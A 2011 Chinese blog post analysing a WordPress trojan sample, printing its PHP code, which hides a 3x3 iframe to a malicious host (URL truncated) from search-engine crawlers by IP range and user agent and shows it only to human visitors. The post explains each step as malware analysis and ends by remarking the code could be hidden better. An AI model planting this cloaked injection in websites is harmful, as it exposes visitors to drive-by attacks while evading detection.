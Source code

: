 title: 一个 Wordpress 木马样本分析
tags:
  - php
  - wordpress
  - 安全
id: 1507
categories:
  - 建站相关
date: 2011-09-18 03:41:08
---

在[饭否看到zuola说](http://fanfou.com/statuses/JreFlCzZgyM "佐拉 fanfou")得到一个[wordpress木马脚本](http://zuola.diandian.com/post/0a3f9170-e1a0-11e0-928b-782bcb3825eb "Zuola: wordpress木马样本")，于是就点了[连接](http://zuola.diandian.com/post/0a3f9170-e1a0-11e0-928b-782bcb3825eb "Zuola Diandian")，并简单的看了看这个样本。原理比较简单，先判断访问来源是否是搜索引擎的蜘蛛或bot，再确定是否显示一个有问题iframe——木马的效力也取决于这个iframe中的内容。这一小段PHP脚本也完全可以用到其它任何PHP程序中。

将源代码做了个简单的整理如下：<!--more-->

```php
error_reporting(0);
$bot = FALSE ;
$user_agent_to_filter = array('bot','spider','spyder'... ...'mybloglog api');
$stop_ips_masks = array(
array(&quot;216.239.32.0&quot;,&quot;216.239.63.255&quot;),
array(&quot;64.68.80.0&quot;  ,&quot;64.68.87.255&quot;  ),
... ... ...
... ... ...
array(&quot;72.30.0.0&quot;,&quot;72.30.255.255&quot;),
array(&quot;38.0.0.0&quot;,&quot;38.255.255.255&quot;)
);

$my_ip2long = sprintf(&quot;%u&quot;,ip2long($_SERVER['REMOTE_ADDR']));

foreach ( $stop_ips_masks as $IPs ) {
    $first_d=sprintf(&quot;%u&quot;,ip2long($IPs[0]));
    $second_d=sprintf(&quot;%u&quot;,ip2long($IPs[1]));
    if ($my_ip2long &gt;= $first_d &amp;&amp; $my_ip2long &lt;= $second_d) {
        $bot = TRUE;
        break;
    }
}

foreach ($user_agent_to_filter as $bot_sign){
    if(strpos($_SERVER['HTTP_USER_AGENT'], $bot_sign) !== false){
        $bot = true;
        break;
    }
}

if (!$bot) {
    echo '&lt;iframe src=&quot;http://whsej........o=1&quot; width=&quot;3&quot; height=&quot;3&quot;&gt;&lt;/iframe&gt;'
}
```

### 1、环境配置与变量声明

error_reporting(0)是为了保证在任何情况下都不报错。

$bot是声音了一个flag，默认值为false，从后面的情况来看，这个是用来表明当前访问者是否是真正的浏览用户。

$user_agent_to_filter和$stop_ips_masks，前者是一维数据，存储了一大堆需要排除的浏览器user_agent，后者是个二维数据，存储了若干个ip段，[这些ip段](http://www.ipchecking.com/?ip=209.85.128.0&amp;check=Lookup "$stop_ips_masks中的ip段")经查询，大都是搜索引擎的。

### 2、访问者ip的判断

接下来，是通过ip地址和浏览器user agent来进行用户是否是普通浏览器的判断。

```php
$my_ip2long = sprintf(&quot;%u&quot;,ip2long($_SERVER['REMOTE_ADDR']));

foreach ( $stop_ips_masks as $IPs ) {
    $first_d=sprintf(&quot;%u&quot;,ip2long($IPs[0]));
    $second_d=sprintf(&quot;%u&quot;,ip2long($IPs[1]));
    if ($my_ip2long &gt;= $first_d &amp;&amp; $my_ip2long &lt;= $second_d) {
        $bot = TRUE;
        break;
    }
}
```

[ip2long](http://php.net/manual/en/function.ip2long.php "ip2long：将ip地址转换为int")这个函数可以将ip地址转换成一个整数，[sprintf](http://php.net/manual/en/function.sprintf.php "PHP: sprinf")('%u', xxx)将这个int转换成无符号数。

foreach在$stop_ips_masks中进行循环，取二维数据中的每一个数组，$frist_d和$second_d分别存储ip段起点ip和止点ip的无符号整数值，再用接下来的if进行判断，当前访问者ip是否在$stop_ips_masks所指定的范围内，若是，则将$bot量置为true。

### 3、访问者user agent的判断

```php
foreach ($user_agent_to_filter as $bot_sign){
    if(strpos($_SERVER['HTTP_USER_AGENT'], $bot_sign) !== false){
        $bot = true;
        break;
    }
}
```

这一部分的判断与ip判断类似，从$user_agent_to_filter中读取每一个值，再与浏览者的user agent进行对比，如果发现是机器人或者蜘蛛，则将$bot置为true。

### 4、放置iframe

if(!$bot)控制当访问者是普通浏览器时，即放置这个iframe，iframe的scr是无耻者放置乱七八糟内容的网页——chrome已经将它block了。

### 5、结论

这个脚本可以用在任何php写成的网站中。而且，这段代码其实可以隐藏得更好，而不是这样连裤衩都不穿的裸奔。